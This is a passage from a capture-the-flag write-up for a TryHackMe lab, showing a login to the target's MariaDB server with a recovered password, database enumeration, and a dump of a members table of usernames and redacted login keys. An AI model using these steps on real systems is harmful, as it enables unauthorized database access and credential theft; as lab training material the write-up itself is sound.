 Nice! We found MySQL password!!

**Armed with above information, we can login MySQL as user `mod` with the above password!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.26|14:24:20(HKT)]
└> mysql -h $RHOSTS -umod -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 106
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04
[...]
MariaDB [(none)]> 
```

We're in!

**Let's enumerate the database:**
```shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| modManagerv2       |
| mybb               |
| mysql              |
| performance_schema |
+--------------------+
```

- Found non default database: `modManagerv2`, `mybb`

**Let's use database `modManagerv2`:**
```shell
MariaDB [(none)]> use modManagerv2
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [modManagerv2]> show tables;
+------------------------+
| Tables_in_modManagerv2 |
+------------------------+
| members                |
+------------------------+
1 row in set (0.227 sec)

MariaDB [modManagerv2]> SELECT * FROM members;
+----------------+-----------------------------------------------------+
| user           | login_key                                           |
+----------------+-----------------------------------------------------+
| LucyRob        | xa{Redacted}                                        |
| Wannabe_Hacker | Ls{Redacted}                                        |
| batmanZero     | TB{Redacted}                                        |
| SandraJannit   | 6V{Redacted}                                        |
| biggieballo    | 75{Redacted}                                        |
| AimsGregger    | Xj{Redacted}                                        |
| BlackCat       | JY{Redacted}                                        |
| Golderg        | cl{Redacted}                                        |
| TonyMontana    | 8C{Redacted}                                        |
| CaseBrax       | eH{Redacted}                                        |
| Ellie          | G9{Redacted}                                        |
| Sosaxvector    | RU{Redacted}                                        |
| PalacerKing    | 49{Redacted}                                        |
| Anderson       | lk{Redacted}                                        |
| CrazyChris     | tp{Redacted}                                        |
| StaceyLacer    | QD{Redacted}                                        |
```